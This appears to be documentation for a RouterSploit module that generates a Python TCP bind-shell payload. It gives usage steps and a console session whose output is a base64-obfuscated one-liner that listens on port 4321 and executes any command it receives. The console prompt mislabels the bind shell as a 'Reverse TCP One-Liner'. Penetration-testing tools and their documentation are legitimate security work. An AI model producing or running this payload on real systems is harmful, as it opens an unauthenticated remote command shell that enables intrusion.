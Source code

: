 ## Description

Module generates payload that creates interactive tcp bind shell by using python one-liner. 

## Verification Steps

  1. Start `./rsf.py`
  2. Do: `use payloads/cmd/python_bind_tcp`
  3. Do: `set rport 4321`
  4. Do: `run`
  5. Module generates python tcp bind shell payload

## Scenarios

```
rsf > use payloads/cmd/python_bind_tcp
rsf (Python Reverse TCP One-Liner) > set rport 4321
[+] rport => 4321
rsf (Python Reverse TCP One-Liner) > run
[*] Running module...
[*] Generating payload
python -c "exec('aW1wb3J0IHNvY2tldCxvcwpzbz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSkKc28uYmluZCgoJzAuMC4wLjAnLDQzMjEpKQpzby5saXN0ZW4oMSkKc28sYWRkcj1zby5hY2NlcHQoKQp4PUZhbHNlCndoaWxlIG5vdCB4OgoJZGF0YT1zby5yZWN2KDEwMjQpCglzdGRpbixzdGRvdXQsc3RkZXJyLD1vcy5wb3BlbjMoZGF0YSkKCXN0ZG91dF92YWx1ZT1zdGRvdXQucmVhZCgpK3N0ZGVyci5yZWFkKCkKCXNvLnNlbmQoc3Rkb3V0X3ZhbHVlKQo='.decode('base64'))"
```
